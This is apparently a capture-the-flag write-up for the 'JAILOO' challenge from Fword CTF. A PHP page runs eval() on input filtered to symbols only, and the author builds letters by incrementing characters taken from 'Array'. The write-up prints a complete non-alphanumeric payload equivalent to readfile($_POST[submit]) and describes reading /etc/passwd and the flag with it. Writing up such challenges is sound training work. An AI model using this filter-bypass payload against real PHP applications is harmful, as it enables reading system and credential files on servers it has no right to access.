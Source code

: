 
# Writeup JAILOO from fword ctf

We have the source of a php file that allow us execute commands via php eval(), the problem is there is a regex that only allow a few characters:
```
if(preg_match_all('/^(\$|\(|\)|\_|\[|\]|\=|\;|\+|\"|\.)*$/', $cmd, $matches)){
	echo "<div class=\"success\">Command executed !</div>";
	eval($cmd);
```
This basically means that we need to create a payload without using letters or numbers, just with ``&"+=()[]``
So lets go I have created a script that convert strings to that characters using the idea of getting an A and a from a php object like Array. We can get the A from 0 index and a from index 3.
With that I started with SYSTEM:
![f6d453f66866661cfea748c00e914fb6.png](/_resources/a515719da83441db93350317ca1a10bf.png)
But apparently it was not enabled y tried with asset, but it was disabled too.

So I end up using readfile(). As the server requires only 2 arguments I reused the submit variable to send the file I want to read. This means we need a payload like ``readfile($_POST[submit])``.
So lets create the payload I started with readfile:
![75dd983c25fd8db3c5d73810646ce083.png](/_resources/9627fd6e073e4d7cb6ecd9ba7c6bc5ab.png)
now _POST :
![19eb173e5e67667992ef9881d061e3b9.png](/_resources/4d06f3ebf6db44acbde7ac121d854f2e.png)

And finally submit:
![f9c66e3add3af3f9ce8bc6a4321daa4e.png](/_resources/e54ea12e4c52488890b4b569621437bb.png)

Adding alltogether we get our finnal pyaload:
```
$_="".[];$_=$_[""];$__=("+"=="+");$__=$__+$__+$__;$____="".[];$___=$____[$__];$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____=$__;$__=$_;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$____.=$__;$__=$_;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$____.=$__;$______=$____;$_="".[];$_=$_[""];$__=("+"=="+");$__=$__+$__+$__;$____="".[];$___=$____[$__];$__=$___;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____=$__;$__=$___;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$___;$__++;$____.=$__;$__=$___;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$___;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$___;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$_______=$____;$_____="_";$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$_____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$_____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$_____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$_____.=$__;$_=$$_____;$______($_[$_______]);
```
We just need to go and try the files we want to read using the POST parameter submit

trying with /etc/passwd:

![14897da3858336a65ed21ef670b184b6.png](/_resources/4f7d730bae1b450bbb4e5d05c5d66737.png)
Getting the flag:

![6e1118665f791a0eb24657b6f446faba.png](/_resources/e46d23c3bc7a4d24aded3789fe054d95.png)
